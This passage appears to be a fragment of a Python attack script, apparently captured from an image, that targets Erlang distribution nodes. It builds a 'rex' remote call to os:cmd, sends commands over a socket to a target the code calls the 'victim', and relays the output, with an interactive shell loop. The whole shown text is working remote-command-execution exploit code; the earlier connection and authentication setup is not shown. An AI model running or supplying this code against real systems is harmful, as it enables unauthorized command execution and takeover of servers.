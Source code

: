 ````python

def send_cmd(name, cmd):
    ctrl_msg = (6,
        erl.OtpErlangPid(erl.OtpErlangAtom(name), '\x00\x00\x00\x03', '\x00\x00\x00\x00', '\x00'),
        erl.OtpErlangAtom(''),
        erl.OtpErlangAtom('rex'))
    msg = (
        erl.OtpErlangPid(erl.OtpErlangAtom(name), '\x00\x00\x00\x03', '\x00\x00\x00\x00', '\x00'),
        (
            erl.OtpErlangAtom('call'),
            erl.OtpErlangAtom('os'),
            erl.OtpErlangAtom('cmd'),
            [cmd],
            erl.OtpErlangAtom('user')
        ))

    new_data = '\x70' + erl.term_to_binary(ctrl_msg) + erl.term_to_binary(msg)
    return pack('!I', len(new_data)) + new_data

def recv_reply(f):
    terms = [t for t in erl_dist_recv(f)]
    if args.verbose:
        print('\nreceived %r' % (terms))

    if len(terms) < 2:
        print("[!] No full response received (expected 2 terms), skipping output...")
        return ''

    answer = terms[1]
    if len(answer) != 2:
        print("[!] Malformed answer term, skipping output...")
        return ''

    return answer[1]

# modo interativo
if not args.cmd:
    while True:
        try:
            cmd = raw_input('%s:%d $ ' % (args.target, args.port))
        except EOFError:
            print('')
            break

        sock.sendall(send_cmd(name, cmd))
        reply = recv_reply(sock)
        sys.stdout.write(reply)
else:
    sock.sendall(send_cmd(name, args.cmd))
    reply = recv_reply(sock)
    sys.stdout.write(reply)

print('[*] disconnecting from victim')
sock.close()

````
